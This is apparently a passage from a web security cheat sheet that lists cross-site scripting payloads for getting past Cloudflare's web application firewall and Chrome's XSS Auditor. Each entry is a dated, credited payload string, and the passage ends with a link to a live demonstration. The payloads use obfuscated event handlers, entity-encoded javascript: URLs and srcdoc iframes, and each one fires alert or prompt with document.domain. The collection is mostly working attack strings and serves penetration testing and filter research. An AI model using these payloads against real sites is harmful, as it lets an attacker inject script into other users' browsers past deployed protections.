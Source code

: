 ```javascript
<script ?/src="data:+,\u0061lert%281%29">/</script>
```


## Common WAF Bypass

### Cloudflare XSS Bypasses by [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

#### 21st April 2020

```html
<svg/OnLoad="`${prompt``}`">
```

#### 22nd August 2019

```html
<svg/onload=%26nbsp;alert`bohdan`+
```

#### 5th June 2019

```html
1'"><img/src/onerror=.1|alert``>
```

#### 3rd June 2019

```html
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
```

### Cloudflare XSS Bypass - 22nd March 2019 (by @RakeshMane10)

```
<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
```

### Cloudflare XSS Bypass - 27th February 2018

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

### Chrome Auditor - 9th August 2018

```javascript
</script><svg><script>alert(1)-%26apos%3B
```

Live example by @brutelogic - [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?c1=</script><svg><script>alert(1)-%26apos%3B)
